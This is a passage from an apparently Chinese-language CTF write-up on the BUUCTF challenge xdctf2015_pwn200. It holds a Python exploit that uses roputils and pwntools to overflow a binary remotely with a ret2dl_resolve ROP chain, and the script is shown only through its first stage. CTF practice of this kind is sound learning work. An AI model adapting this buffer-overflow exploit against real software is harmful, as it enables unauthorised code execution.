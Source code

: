 

## BUUCTF上的xdctf2015_pwn200

<img src="/upload/img/image-20220411122236010.png" alt="image-20220411122236010" style="zoom: 50%;" />

<img src="/upload/img/image-20220411122243664.png" alt="image-20220411122243664" style="zoom:50%;" />

在以这道题为例看一下Roputil的威力（不过这道题实在有点杀鸡用牛刀了，因为存在泄露函数，直接用ret2libc也可以）

我只是拿上面的exp改了一下偏移和远程题目的地址（需要注意的是由于刚开始直接从Roputils里面引入了所有的函数，因此我们要用原本pwntools中的函数时，需要再引用一下）**这里还把上面那个exp中的from pwn import process换成了from pwn import remote**，最后直接一把梭。

```python
#!/usr/bin/env python
# coding=utf-8
from roputils import *
from pwn import remote
from pwn import gdb
from pwn import context
processName = 'bof'
offset = 112
r = remote('node4.buuoj.cn',25383)
#r = process('./' + processName)
#gdb.attach(r)
context.log_level = 'debug'
ret_addr=0x0804851B
rop = ROP('./' + processName)

bss_base = rop.section('.bss')
buf1 = rop.fill(offset)
buf1 += rop.call('read', 0, bss_base, 100)
## used to call dl_Resolve()
buf1 += rop.dl_resolve_call(bss_base + 20, bss_base)
r.send(buf1)

```